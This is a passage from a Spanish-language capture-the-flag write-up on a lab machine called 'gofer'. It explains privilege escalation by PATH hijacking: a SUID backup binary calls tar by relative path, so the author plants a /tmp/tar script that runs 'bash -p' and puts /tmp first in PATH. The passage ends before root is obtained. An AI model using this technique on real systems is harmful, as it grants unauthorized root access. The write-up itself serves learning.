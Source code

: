 # Path Hijacking -> Privesc
Ahora al intentar hacer el backup vemos que se utiliza `tar` y hace una copia de `/opt/notes`
![Write-up Image](images/Screenshot_26.png)

Y si con `strings` listamos las cadenas imprimibles de caracteres y filtramos por `tar` vemos el comando que se utiliza.
```shell
tbuckley@gofer:~$ strings /usr/local/bin/notes | grep tar
__libc_start_main
__gmon_start__
tar -czvf /root/backups/backup_notes.tar.gz /opt/notes
__init_array_start
__libc_start_main@GLIBC_2.2.5
__data_start
__gmon_start__
__bss_start
```

Desgraciadamente la persona que hizo el binario asignó una ruta relativa a este binario con SUID.

Esto significa que se asigna el SUID 0 `root` pero utiliza el PATH de nuestro usuario, y podríamos hacer un Path Hijacking para que al ejecutar el comando `tar` de forma relativa se ejecute un comando que nosotros especifiquemos como el usuario `root`

Nos dirigimos la directorio `/tmp` por ejemplo y creamos un archivo `tar` y le asignamos permisos de ejecución.

```shell
tbuckley@gofer:/tmp$ cat tar
#!/bin/bash

bash -p

tbuckley@gofer:/tmp$ chmod +x tar
```

Ahora reemplazamos el path para que la primera coincidencia al buscar el binario de `tar` se realice en `/tmp`

```shell
tbuckley@gofer:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
tbuckley@gofer:/tmp$ export PATH=/tmp:$PATH
tbuckley@gofer:/tmp$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
